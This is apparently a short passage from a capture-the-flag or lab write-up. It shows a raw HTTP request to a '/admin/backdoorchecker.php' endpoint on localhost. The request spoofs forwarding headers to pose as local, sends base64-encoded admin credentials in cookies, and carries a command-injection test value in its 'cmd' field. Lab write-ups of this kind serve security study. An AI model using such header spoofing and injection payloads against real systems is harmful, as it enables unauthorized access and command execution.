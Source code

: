 
```
POST /admin/backdoorchecker.php HTTP/1.1
Host: localhost:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 16
Connection: close
X-Forwarder-For: 127.0.0.1
X-Forwarded-Host: localhost
Forwarded: for=127.0.0.1;host=localhost
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Origin: http://localhost
Referer: http://localhost/admin
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D

cmd=dir';-- test
```


even in port 80 forwarded burp:
![](2021-02-05-12-37-50.png)
